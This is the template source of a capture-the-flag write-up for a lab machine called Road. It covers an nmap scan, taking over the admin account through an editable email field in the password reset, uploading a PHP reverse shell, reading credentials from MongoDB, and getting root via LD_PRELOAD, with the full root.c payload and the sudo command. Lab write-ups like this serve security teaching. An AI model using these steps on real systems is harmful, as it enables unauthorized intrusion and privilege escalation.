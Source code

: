 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We begin by scanning all the ports.")}}

{{console("nmap -T5 -p- 10.10.232.145", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-14 19:02 CET
Warning: 10.10.232.145 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.232.145
Host is up (0.075s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 275.41 seconds")}}

{{text("Let's visit the web page.")}}

{{image("../../static/writeups/road/images/000001.jpg")}}

{{text("By clicking on 'Merchant Central' we get brought to a log in page.")}}

{{image("../../static/writeups/road/images/000002.jpg")}}

{{text("I tried a couple of SQL Injection payloads, but they didn't work. Maybe we could try registering a new user.")}}

{{text("We can register pretty easily with pretty much any information. We login as a new user.")}}

{{image("../../static/writeups/road/images/000003.jpg")}}

{{header("Shell as www-data", "shell-as-www-data")}}

{{text("Even that it look robust, luckly for us there are only a couple of real functionalities.")}}

{{text("All we can pretty much do is reset our password and edit our profile.")}}

{{text("What was surprising to me, only an admin is able to upload a profile picture. Rather odd.")}}

{{image("../../static/writeups/road/images/000004.jpg")}}

{{text("I continued with reseting my credentials. After catching a request with Burp, I noticed something interesting.")}}

{{image("../../static/writeups/road/images/000005.jpg")}}

{{text("On the site, the mail field is greyed out so that you can't edit it, but it's editable here. Looking at the previous picture we also find out the e-mail address of the administrator.")}}

{{text("Let's send a request with administrator's e-mail and our own password.")}}

{{text("After sending the request, I got a response with code 200. We should try to log in with the password we provided.")}}

{{image("../../static/writeups/road/images/000006.jpg")}}

{{text("It worked, and now we were the admin. Let us go back to uploading a profile picture.")}}

{{text("We go to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>revshells.com</code> and get ourselves a PHP PentestMonkey shell and save it into a file.")}}

{{text("Now we upload our <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>.php</code> file as our profile picture and pray it works.")}}

{{text("We get a response that it was uploaded successfully. But where to?")}}

{{text("Looking at the source code, we find a commented out directory that probably has our shell.")}}

{{image("../../static/writeups/road/images/000007.jpg")}}

{{text("We set up a listener and go to our file. We should get a connection.")}}

{{image("../../static/writeups/road/images/000008.jpg")}}

{{header("Shell as webdeveloper", "shell-as-webdeveloper")}}

{{text("While enumerating the machine I tried running <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>netstat -tulnp</code>, but it wasn't installed on the system. This was the first time I encountered something like this, so I tried alternative commands.")}}

{{console("ss -atur", "Netid State    Recv-Q  Send-Q                                                    
udp   UNCONN   0       0                                           localhost%lo:domain
udp   UNCONN   0       0        ip-10-10-77-159.eu-west-1.compute.internal%eth0:bootpc
tcp   LISTEN   0       70                                             localhost:33060
tcp   LISTEN   0       511                                            localhost:9000
tcp   LISTEN   0       4096                                           localhost:27017
tcp   LISTEN   0       151                                            localhost:mysql
tcp   LISTEN   0       4096                                        localhost%lo:domain
tcp   LISTEN   0       128                                              0.0.0.0:ssh
tcp   ESTAB    0       10            ip-10-10-77-159.eu-west-1.compute.internal:38066
tcp   SYN-SENT 0       1             ip-10-10-77-159.eu-west-1.compute.internal:45242
tcp   SYN-SENT 0       1             ip-10-10-77-159.eu-west-1.compute.internal:47632
tcp   SYN-SENT 0       1             ip-10-10-77-159.eu-west-1.compute.internal:47634
tcp   SYN-SENT 0       1             ip-10-10-77-159.eu-west-1.compute.internal:51540
tcp   SYN-SENT 0       1             ip-10-10-77-159.eu-west-1.compute.internal:51544
tcp   SYN-SENT 0       1             ip-10-10-77-159.eu-west-1.compute.internal:51538
tcp   SYN-SENT 0       1             ip-10-10-77-159.eu-west-1.compute.internal:56800
tcp   SYN-SENT 0       1             ip-10-10-77-159.eu-west-1.compute.internal:51542
tcp   LISTEN   0       511                                                    *:http
tcp   LISTEN   0       128                                                 [::]:ssh
tcp   ESTAB    0       0             ip-10-10-77-159.eu-west-1.compute.internal:http")}}

{{text("There are a couple of ports listening, but the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>27017</code> was interesting. It corresponds to a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>MongoDB</code> service.")}}

{{text("We can try to connect to it.")}}

{{console("mongo 127.0.0.1", "MongoDB shell version v4.4.6
connecting to: mongodb://127.0.0.1:27017/test?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { 'id' : UUID('ef7eea47-d872-4c70-bf0b-ac15d3a0db85') }
MongoDB server version: 4.4.6
...")}}

{{text("It worked and now we can look for any sort of credentials on the server.")}}

{{text("We check for databases, the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>backup</code> one looked the most interesting so I used it. There was an <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>user</code> table which might contain credentials.")}}

{{image("../../static/writeups/road/images/000009.jpg")}}

{{text("We were right, and now we can log in as the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>webdeveloper</code> user.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("Because we had our current user password, I checked his sudo privilages.")}}

{{console("sudo -l", "Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility")}}

{{text("We can run <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/usr/bin/sky_backuup_utility</code> as root, but that is not the most interesting.")}}

{{text("The <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>env_keep+=LD_PRELOAD</code> line is.")}}

{{text("It is a function that allows us to make any program use shared libraries. Meaning that if we create a shared library that creates a shell as root and it runs with <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>sky_backup_utility</code> while it's running as sudo, we should become root.")}}

{{text("So let's begin.")}}

{{text("We create a file that will grant us a root shell.")}}

{{console("cat root.c", "#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
            unsetenv('LD_PRELOAD');
                setgid(0);
                    setuid(0);
                        system('/bin/bash');
}")}}

{{text("Then we compile it.")}}

{{console("gcc -fPIC -shared -o root.so root.c -nostartfiles")}}

{{text("Now we just need to run our program while specifying our newly compiled file.")}}

{{console("sudo LD_PRELOAD=/home/webdeveloper/root.so sky_backup_utility")}}

{{text("We then should become root.")}}

{{image("../../static/writeups/road/images/000010.jpg")}}

{{script()}}







